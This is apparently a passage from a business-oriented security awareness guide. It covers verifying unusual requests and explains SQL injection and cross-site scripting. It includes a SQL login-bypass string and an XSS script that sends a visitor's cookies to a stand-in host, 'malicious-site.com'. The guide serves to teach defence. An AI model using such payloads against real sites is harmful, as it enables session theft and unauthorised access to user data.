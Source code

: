 #### 4. Verify unusual requests

Instruct users to confirm unusual or sensitive requests by contacting the sender through trusted channels.

Many phishing attacks rely on social engineering tactics that impersonate executives, vendors, or IT staff. Teach employees to never trust high-risk requests such as wire transfers, password resets, or requests for sensitive data without verifying them first.

Emphasize that verification must happen through a separate channel. For example, calling the person directly or messaging them through a known company app. Simply replying to the original email or message could mean continuing the conversation with the attacker.

---

## 2. SQL Injection, XSS, and CSRF

Rather than "conning" users, these attacks exploit weaknesses in web elements and architecture.

Using malicious queries, scripts, and requests, hackers can bypass authentication, capture cookie data, and force transactions. They often target the very forms and scripts businesses rely on to capture leads or gather customer data.

### SQL Injection

Hackers send SQL codes through form input fields, the search bar, or URL parameters to access website databases. If the input isn't properly validated or sanitized, the database executes the attacker's code that will manipulate and [<FontIcon icon="fas fa-globe"/>expose sensitive data on the dark web](https://aura.com/learn/how-to-find-out-if-my-information-is-on-the-dark-web).

SQL injection exploits unvalidated input fields to search, modify, or delete records from within the database.

::: tip SQL injection example:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```

:::

### Cross-Site Scripting (XSS)

Scripts are injected into web pages, leveraging them against future users.

Cross-Site Scripting (XSS) means that attackers can use scripts on web pages to steal session information from cookies or redirect users to "impersonation" sites.

Here’s how it works: A hacker injects a malicious script into a public form (such as a comment section). The website then displays the comment without sanitizing the content. Eventually, other users load the page and unknowingly run the attacker's script.

::: tip XSS example

```html
<script>document.location='http://malicious-site.com?cookie='+document.cookie;</script>
```
